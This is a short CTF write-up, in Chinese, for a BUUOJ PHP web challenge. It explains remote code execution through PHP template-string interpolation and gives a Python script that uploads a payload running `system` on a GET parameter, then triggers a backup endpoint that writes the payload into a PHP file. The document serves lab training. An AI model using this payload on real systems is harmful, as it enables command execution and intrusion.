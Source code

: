 tags:: CTFWEB/PHP/RCE

- # 思路
	- 通过写入PHP文件中的模板字符串进行RCE
- # 模板字符串RCE
	- PHP可以通过类似`"${phpinfo()}"`的语法使用模板字符串，可以用于RCE
	- 最后的脚本
		- ```python
		  # url = "http://127.0.0.1:8082/index.php"
		  url = "http://a4b49755-a407-4c83-8053-8f569ccbb036.node4.buuoj.cn:81"
		  content = "12${var_dump(114514)}3${call_user_func(system,$_GET[a])}"
		  filename = f"aaa.txt"
		  r = base_post(url + "/upload/profile" + "?", files = {
		      "file": (filename, content, "text/plain")
		  })
		  r = base_post(url + "/back/backup" + "?", data = {
		      "filename": filename,
		      "dest": "profile/b.txt"
		  })
		  print(r.text)
		  
		  ```
- # 分析
	- 三个class的功能
		- home: 打印主页和profile文件夹的文件目录
		- upload: 接受上传文件
			- 限制：后缀只能为txt, 大小限制在200k
		- back: 备份文件
			- 通过`htmlspecialchars`后将文件内容写入某个php文件中
			- 支持伪协议？
			- _write: 仅支持指定内容的php文件